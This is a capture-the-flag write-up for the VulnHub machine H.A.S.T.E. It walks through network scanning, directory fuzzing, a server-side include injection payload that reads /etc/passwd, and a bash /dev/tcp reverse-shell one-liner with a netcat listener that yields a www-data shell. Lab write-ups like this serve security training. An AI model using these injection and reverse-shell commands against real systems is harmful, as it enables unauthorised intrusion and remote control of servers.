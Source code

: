 # H.A.S.T.E

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l

Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1	00:50:56:c0:00:01	VMware, Inc.
192.168.127.134	00:0c:29:b3:82:58	VMware, Inc.
192.168.127.254	00:50:56:f3:36:94	VMware, Inc.
```

The IP address is `192.168.127.134`, let's enumerate it


## 2.Enumeration

```bash
root@kali: nmap -p- -T4 -v 192.168.127.134

Nmap scan report for www.convert.me (192.168.127.134)
Host is up (0.0023s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:B3:82:58 (VMware)
```

only port 80 is open, so let's navigate it

at the same time i started fuzzing the page :

```bash
root@kali: ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.127.134/FUZZ

index                   [Status: 200, Size: 35, Words: 4, Lines: 2, Duration: 1ms]
images                  [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 1ms]
pages                   [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 5ms]
layout                  [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 2ms]
robots                  [Status: 200, Size: 33, Words: 3, Lines: 3, Duration: 2ms]
ssi                     [Status: 200, Size: 802, Words: 122, Lines: 11, Duration: 5ms]
licence                 [Status: 200, Size: 5004, Words: 617, Lines: 81, Duration: 1ms]
                        [Status: 200, Size: 6851, Words: 744, Lines: 117, Duration: 2ms]
server-status           [Status: 403, Size: 303, Words: 22, Lines: 12, Duration: 2ms]
```

checking different part of the site led to nothing except `/index` and `/ssi` which are some how a tip :

- from `/ssi` we see that some kind of directory listing is happening and looks like server side injection

- from `/index` we see `<--#exec cmd="cat /etc/passwd" --> ` which looks like command injection

now we may look for some injection point to test our theory for command injection

the only point to enter something is in the main page :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/0df53559-3a57-46b4-a877-ba98f3852e72)

i entered a similar payload like `<!--#exec cmd="cat /etc/passwd" -->` and it worked 

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/7356ab82-8f9f-4cff-9033-c49c98110b97)

## 3.Gaining Shell

Just use a reverse shell to get it :

```bash
bash -c 'exec bash -i &>/dev/tcp/192.168.127.128/4444 <&1'
```

start a netcat listener :

```bash
root@kali: nc -nvlp 4444                  
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.134] 57536
bash: cannot set terminal process group (1306): Inappropriate ioctl for device
bash: no job control in this shell

www-data@ConverterPlus:/var/www/html/convert.me/public_html$ cd /home

www-data@ConverterPlus:/home$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

There is no need to get root on this machine :)


